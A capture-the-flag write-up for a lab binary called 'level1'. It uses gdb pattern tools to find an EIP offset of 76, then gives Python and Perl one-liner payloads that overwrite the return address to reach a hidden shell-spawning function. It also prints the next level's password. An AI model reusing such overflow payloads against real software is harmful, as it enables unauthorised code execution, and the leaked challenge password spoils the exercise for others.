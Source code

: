 # level1

On this level we have one executable (`level1`).
```bash
> ./level1
<read user input>
```
If we send a big string to the program, we have a segfault
```bash
./level1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

we can have the maximum lenght of the string in gdb
```bash
(gdb) gdb level1
(gdb) pattern create 100  ; works only with peda
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
(gdb) run
...
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
...
(gdb) pattern search  ; search for the pattern in the program
... ; we can see the EIP (pointer address at an offset of 76)
EIP+0 found at offset: 76
...
```

if we disass the code, we can see a run function. this function is never called and this function exec a shell.

We get his adress on the disassembler (`08048444`) and we will try to send it has EIP (Instruction Pointer).
```bash
> python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/args  # create 76 char (offset of EIP) and then put the address
> cat /tmp/args - | ./level1
Good... Wait what?
> # you have a shell on level2
> cd ../level2
> cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---
alternative
```bash
> (perl -e 'print "a"x76 . "\x44\x84\x04\x08"'; cat) | ./level1

Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
